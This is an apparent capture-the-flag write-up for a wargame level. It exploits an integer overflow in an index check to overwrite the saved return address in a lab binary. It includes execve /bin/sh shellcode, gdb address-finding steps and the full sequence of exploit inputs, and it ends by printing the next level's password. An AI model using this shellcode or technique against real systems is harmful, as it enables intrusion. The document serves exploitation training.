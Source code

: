 overwrite eip save using an index integer overflow to bypass %3 check

shellcode -> buffer
\x90\x90\x90\x90 \x90\x90\x90\x90 \x90\x90\x90\x90 \x90\x90\x90\x90 \x6a\x0b\x58\x99 \x52\x68\x2f\x2f \x73\x68\x68\x2f \x62\x69\x6e\x89 \xe3\x31\xc9\xcd \x80 ; 21 bytes execv() shellcode

address of buffer to overwrite eip save					; ebp + 36 in store_num()

find eip save relative to start of buffer 
4 pushed registers (16)
and esp, 0xfffffff0 (alignment to 16 bytes, removed 12 bytes)
size of stack: 0x1d0 (464)
start of buffer: esp+0x24 (36)

(464-36+16+12)/4 = 114

Find the integer that will overflow to 114 after being multiplied by 4 (shl 2)
1073741824 (a quarter of UINT_MAX, *4=0)
1073741824+114
1073741938

We can use read command to check if we are storing at the correct index (it should segfault when we quit)
./level07
Input command: store
 Number: 45
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 45
 Completed read command successfully
Input command: quit
Segmentation fault (core dumped)

Lets find the address of our buffer
gdb level07
b *0x08048795	; its address is loaded into ebx here
r
Breakpoint 1, 0x08048795 in main ()
p (void*)$ebx
$1 = (void *) 0xffffd504

printf %d 0xffffd504
4294956292

All that is left is placing our shellcode inside the buffer:
- divide into 4 bytes sections
- reverse them
- convert to decimal
- store them starting from index 0 (using the overflow exploit)

Because gdb adds runtime environment variables, the address of our buffer is innacurate, adding some '\90' instruction padding and increasing our address by 32 bytes is enough to reach it

printf %d 0xffffd536 ; address of buffer +32
4294956342

./level07
Input command: store
 Number: 4294956292
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956292
 Completed read command successfully
Input command: store
 Number: 2425393296
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 2425393296
 Index: 1
 Completed store  command successfully
Input command: store
 Number: 2425393296
 Index: 2
 Completed store command successfully
Input command: store
 Number: 2425393296
 Index: 1073741827
 Completed store command successfully
Input command: store
 Number: 2572684138
 Index: 4
 Completed store command successfully
Input command: 791636050
 Failed to do 791636050 command
Input command: store
 Number: 791636050
 Index: 5
 Completed store command successfully
Input command: store
 Number: 795371635
 Index: 1073741830
 Completed store command successfully
Input command: store
 Number: 2305714530
 Index: 7
 Completed store command successfully
Input command: store
 Number: 3452514787
 Index: 8
 Completed store command successfully
Input command: store
 Number: 128
 Index: 1073741833
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956292
 Completed read  command successfully
Input command: store
 Number: 4294956342
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4294956342
 Completed read command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
